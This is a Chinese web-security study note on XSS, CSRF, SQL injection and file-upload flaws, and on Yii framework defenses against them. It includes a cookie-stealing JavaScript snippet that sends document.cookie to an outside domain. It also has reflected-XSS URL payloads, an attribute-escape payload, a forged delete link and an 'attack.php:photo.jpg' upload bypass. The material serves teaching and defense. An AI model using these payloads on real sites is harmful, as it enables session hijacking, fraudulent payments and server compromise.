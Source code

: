 [TOC]
# XSS 攻击
Cross Site Scripting 简称XSS

```
var cookie = document.cookie;
window.location.href = 'http://codekissyoung.com?cookie='+cookie;
```
通过上面代码我可以拿到别的用户的cookie,我可以将这个用户的cookie放入我自己的浏览器，再去访问该cookie对应的网站，我就伪装成了该用户^_^
### httponly
服务器给发送给浏览器的cookie设置了httponly,我们就没办法通过javascript拿到用户cookie了

### 如何能让我写的javascript攻击代码在被攻击的网站／页面运行呢？
也就是如何将攻击代码注入到攻击页面中呢？
###反射型Xss
```
http://www.codekissyoung.com?name=<script>alert('aaaa');</script>
```
浏览器在`X-XSS-protectioiin`没开启的情况下，会运行链接里的<script>中的代码
```
\YII::$app->response->headers->add('X-XSS-Protection', '0'); // 不开启浏览器X-XSS-Protection
```
构建下面链接(假设是付款页面的url),...是攻击代码
```
http://taobao.com?user=zhangjian&js=<script>...</script>
```
将该链接发布到网上,引诱别人点击,如果真有用户在该付款页面登录了，他点了上述链接后会跳转到该url,同时执行里面的js代码(js可以自动填写表单，收款人填自己，同时自动点击付款)^_^
### 攻击的难点和精髓就在于如何让自己js能运行起来
url编码知识:`&`编码是`％26`,`escape("&")`可以得到编码值
html实体编码知识: `"`的实体编码为`&quot;`
`&quot;`生成的`"`能越狱么？
在`<script>`标签中，`&quot;`不会被html解析为`"`的
`<?=$_GET['key'];?>`接收的为 `?key=%26quot;alert(3);//`
```
<img src="x" onerror='var a = "123<?=$_GET['key'];?>"'/>
```
### Yii 防止Xss
```
\yii\helpers\Html::encode($script);
\yii\helpers\HtmlPurifier::process($script); // lexer(词法解析)出js代码，然后过滤它
```
为何不用正则表达式过滤js代码？
js代码可能隐藏在`<img>``<a>`中，各种属性中，并且掺杂各种编码，你很难识别全部伪装的js代码


# Csrf 跨站脚本攻击
get请求，post请求不是来自本站点
## get型
比如有一个url`http://codekissyoung.com/article/delete?id=19`是用于删除一篇文章的，我将这个链接发布到网上，任何人点击了该链接都可以触发删除文章代码(如果未防范的话)
## post型
伪造表单，action填写真实攻击网站的url,诱导用户填写表单，在用户已经登录该网站(有cookie)的情况下，他填写我们伪造的表单，然后提交，就中招了！
## referer
通过referer头防csrf,但不靠谱，有些浏览器不带referer头
## 防伪标志
服务器生成一个防伪标志_csrf给每个请求的页面，页面里面提交表单时，需要将_csrf传递过来，服务器验证该_csrf是否正确
Yii框架生成 _csrf标志
```
$csrfToken = \Yii::$app->request->csrfToken;
$this->render('view',['csrfToken'=>$csrfToken]);
```
view中
```
<form>
<input type='hidden' name="_csrf" value='<?=$csrfToken?>'>
</form>
```
_csrf的验证过程
服务端在返回页面时，表单带上隐藏的_csrf,cookie设置上经过加密算法加密的_csrf
再次请求服务端时，判断下 `加密(表单_csrf) == cookie的_csrf`就可以验证请求是否伪造的了


# SQL注入
```
$user = (new \yii\db\Query())
->select('*')
->from('users')
->where('name=:name', ['name'=>'zhangsan'])
->one();
print_r($user);
```

# 文件上传漏洞
验证上传文件类型
防止文件名上做手脚
```
if($_POST){
$ext = pathinfo($_FILES['photo']['name'], PATHINFO_EXTENSION);
if(in_array($ext, ['png', 'jpg', 'gif'])){

echo '类型检测成功';
move_uploaded_file($_FILES['photo']['tmp_name'], './'.$_FILES['photo']['name']);
}

//$_FILES['photo']['type']
}
```
比如 `attack.php:photo.jpg`在服务端可以绕过类型检测，但是操作系统文件名的限制，该文件会被存为
`attack.php`,`:`后面都会被截断
所有建议不使用用户提交的文件名存储文件！而是使用服务器端生成的文件！
